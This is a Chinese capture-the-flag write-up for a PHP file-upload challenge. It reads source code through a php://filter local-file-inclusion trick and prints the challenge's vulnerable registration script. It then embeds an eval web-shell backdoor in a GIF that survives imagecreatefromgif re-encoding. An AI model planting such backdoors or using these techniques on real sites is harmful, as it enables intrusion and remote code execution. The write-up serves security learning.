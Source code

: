 ##pt &nbsp; &nbsp;Homework-200 （文件上传类题目）  
####解题过程：
*  先使用'php://filter/read=convert.base64-encode/resource='语句读取登录页面reg.php源码。   
将homework.sctf.xctf.org.cn/homework.php?homework=homework.txt改为homework.sctf.xctf.org.cn/homework.php?homework=php://filter/read=convert.base64-encode/resource=reg.php  发现不行，:-( 反馈为 plz don't read my code， 猜测应该是过滤了read,想办法绕过，尝试Read,顺利读出reg.php的base64格式。[∩_∩]  解码后如下：   
```  
    <html>
    <meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
    </html>
    <?php
    include('./config.php');
    session_start();
    function make_password()
    {
    	$password="";
    	$chars="abcdefghijklmnopqrstuvwxyz1234567890-=!@#$%^&*_";
    	for($i=0;$i<8;$i++)
    	{
    		$password.=$chars[rand(0,46)];
    	}
    	return $password;
    }
    
    if(isset($_POST['captcha_code'])){
    	// code for check server side validation
            $captcha_code = (string)$_POST['captcha_code'];
    	if(empty($_SESSION['captcha_code'] ) || strcasecmp($_SESSION['captcha_code'], $captcha_code) != 0){  
    		 exit('验证码错误');
    	}else{// Captcha verification is Correct. Final Code Execute here!		
    		
    	}
    } else {
    	exit('Get out!');
    }
    //unset($_SEESION['captcha_code']);
    session_destroy();
    if(isset($_POST['upload'])){
    $filename = $_FILES['uploaded']['name'];
    $filetype = $_FILES['uploaded']['type'];
    $filesize = $_FILES['uploaded']['size'];
    $tmpname = $_FILES['uploaded']['tmp_name'];
    $uploaddir = './upload/';
    $target_path = $uploaddir.basename($filename);
    $fileext = substr(strrchr($filename,"."),1);
    if(($fileext == 'gif')&&($filetype == "image/gif")){
    	{
    		if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	}
    	$im =imagecreatefromgif($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".gif";
    	$newimagepath = $uploaddir.$newfilename;
    	imagegif($im,$newimagepath);
    	unlink($target_path);
    }else if(($fileext == 'jpg')&&($filetype == "image/jpeg"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".jpg";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }else if (($fileext=='png')&&($filetype=="image/png"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".png";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }
    }
    if(isset($_POST['name'])&&isset($_POST['age']))
    {
    	$name=substr($_POST['name'],0,6);
    	$age=intval($_POST['age']);
    	$username=file_get_contents('./id.txt');
    	$password=make_password();
    	file_put_contents('./id.txt',intval($username)+1);
    	mysql_query("insert into info(username,password,name,pic,age)values('$username',md5('$password'),'$name','$newimagepath',$age)");
    	mysql_close($con);
    	print("生成成功，学号:$username,密码：$password");
    	print("<a href='./index.html'>回主页</a>");
    }
    ?>
```
*  然和呢，发现这题主要是绕过createimagefromgif()函数    
想到这个知识点：https://www.secgeek.net/bookfresh-vulnerability/     
先尝试了jpg、png、gif格式的图片，发现只有gif可以，接下来如何构造自己嵌入了php代码的gif图片呢？   
文章中提到的方法是：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?> 留作后门   
这张图乜放进来，便于大家尝试  
![示例图片](img/heng.gif)
上传成功后在网页上输出经过处理后的和自己上传的那张一模一样的图片，在当前目录下查看这张图片: homework.sctf.xctf.org.cn/homework.php?homework=./upload/1305771078.gif或者homework.sctf.xctf.org.cn/homework.php?homework=upload/1305771078.gif
网页上出现一堆怪异的字符，然后留的后门就有用啦  
推荐firefox下一个非常好用的插件hackbar  
![图片1](img/1.png)  
![图片2](img/2.png)  
![图片3](img/3.png)  
  
###收获总结  
1.  在某些情况下使用php://filter/read=convert.base64-encode/resource=方法查看php源代码  
 问：在什么情况下可以这么干呢  
 当这个某个url中有参数时，即get文件时，可以将参数值替换成php://filter/read=convert.base64-encode/resource=想要的.php,本来是要get到页面所指定的文件，但由于我们的替换和原本代码的不安全，使得有些情况下可以成功的读到php源代码*^_^* 
2.  get到一个php中不安全的函数imagecreatefromgif()   
 相应的解决办法：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?>（你想要实现的语句）  
  
###启示   
 学习和平时刷题时，注意积累PHP中容易出安全问题的函数，并记下为什么出安全问题，以及怎样解决。  
  这样，以后在做PHP相关的题型时，根据代码便可快速知道是什么地方出了问题，然后找到对策。   
  另外，即使不能获取到源代码，由于积累，也可大概判断是什么函数导致安全故障。  
  最后，还提供了一种解题思路：对比函数处理前后图片的变化，来搜索是什么函数，做了怎样的处理。
